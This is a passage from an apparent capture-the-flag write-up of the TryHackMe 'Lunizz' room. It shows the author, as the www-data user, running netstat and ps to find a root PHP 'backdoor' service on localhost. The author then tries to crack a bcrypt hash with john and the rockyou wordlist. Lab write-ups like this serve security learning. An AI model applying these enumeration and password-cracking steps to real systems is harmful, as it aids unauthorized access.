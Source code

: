 But no luck...

**By running `netstat` command to list all listening ports, I found port `8080` in opened on localhost:**
```
www-data@lunizz:/var/www/html/whatever$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
[...]
```

**And running command `ps aux`, it's a PHP web server running on port 8080:**
```
www-data@lunizz:/var/www/html/whatever$ ps aux
[...]
root [...] /bin/sh -c php -S 127.0.0.1:8080 -t /root/
```

```
www-data@lunizz:/var/www/html/whatever$ curl http://localhost:8080/    
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

It's a root backdoor? Not sure what is it...

Hmm... Let's go back.

**Since we also found a bcrypt hash in `bcrypt_encryption.py`, we can crack it with `john`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# nano adam.hash       
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt adam.hash
[...]
```

But it couldn't crack the hash...

**Then I guess I'll write a [python script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Lunizz-CTF/crack_bcrypt.py) to crack it, as we know the salt!**

According to [Wikipedia](https://en.wikipedia.org/wiki/Bcrypt) about bcrypt, the hash is:

```
$2<a/b/x/y>$[cost]$[22 character salt][31 character hash]
```
